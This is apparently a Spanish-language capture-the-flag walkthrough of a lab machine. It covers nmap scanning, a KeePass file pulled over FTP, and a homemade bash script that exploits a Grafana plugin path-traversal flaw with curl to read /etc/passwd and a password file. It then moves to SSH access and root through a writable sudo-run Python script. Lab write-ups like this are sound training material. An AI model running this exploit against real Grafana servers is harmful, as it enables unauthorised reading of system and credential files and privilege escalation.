






- Tags: #bashScripting #grafana #LFI 
_____
comenzamos la maquina con el escaneo de nmap para determinar los puertos abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 10.10.10.2 -oG allport
```

despues aplicamos el escaneo para conocer la versión y servicio que corren en los puertos

```shell
nmap -p <puertos> <direccion_ip> -sCV -oN target
```
____

_____
tenemos tres puertos abiertos, investigaremos primero el puerto 21 puesto que es vulnerable.
___

____
tenemos un archivo que parece ser de keepass, lo descargamos e intentamos acceder.
____

___
pero nos da un error, y nos sugiere que la versión del archivo KeePass (.kdbx) no es compatible con la versión actual de `keepass2john`

por lo que veamos que tenemos en la web.
_____

___
tenemos un html, veamos que contiene.
____

______
nos dice que accedamos a un directorio para poder leer el archivo pass.txt, hasta los momentos no tenemos acceso a ese directorio.

lo siguiente que haremos es revisar el puerto 3000 que tenemos y ver que encontramos.
____

_____
tenemos una versión, podemos buscar vulnerabilidades y ver que obtenemos.
_____

_____
tenemos una para esa versión lo que nos permite es mediante una vulnerabilidad LFI podremos leer archivos del sistema.

para eso tenemos un exploit en python, pero para practicar un poco el bash scripting diseñe mi propio script para explotar la vulnerabilidad.

```bash
#!/bin/bash

plugins=(
"mysql"
"news"
"nodeGraph"
"opentsdb"
"piechart"
"pluginlist"
"postgres"
"prometheus"
"stackdriver"
"stat"
"state-timeline"
"status-histor"
"table"
"table-old"
"tempo"
"testdata"
"text"
"timeseries"
"welcome"
"zipkin"
)

  

for i in ${plugins[@]}; do

output=$(curl --path-as-is http://10.10.10.2:3000/public/plugins/${i}/../../../../../../../../../../etc/passwd 2>/dev/null)

if [ $? -eq 0 ]; then
	echo -e "\n### Vulnerable: ${i} ###\n"
	echo "$output"
	break
else
	echo "Not Vulnerable: ${i}"
fi
done
```

no es la gran cosa pero cumple su función, aplicando el script podremos ver el /etc/passwd.
_____

____
acá podemos ver usuarios del sistema, como grafana y freddy.

si podemos leer archivos del sistema tenemos que intentar leer el /tmp/pass.txt.
_______

____
tenemos lo que parece ser una contraseña por lo que intentaremos acceder por ssh con los dos usuarios que tenemos.
______

___
accedimos con el usuario freddy por lo que aplicando sudo -l nos aparece que podemos ejecutar maintenance.py con root y sin contraseña, vemos que contiene el archivo y que permisos tiene.
_____

____
podemos modificar el archivo y aprovechar para convertirnos en root.
____

_____

____
de esta forma obtenemos root.
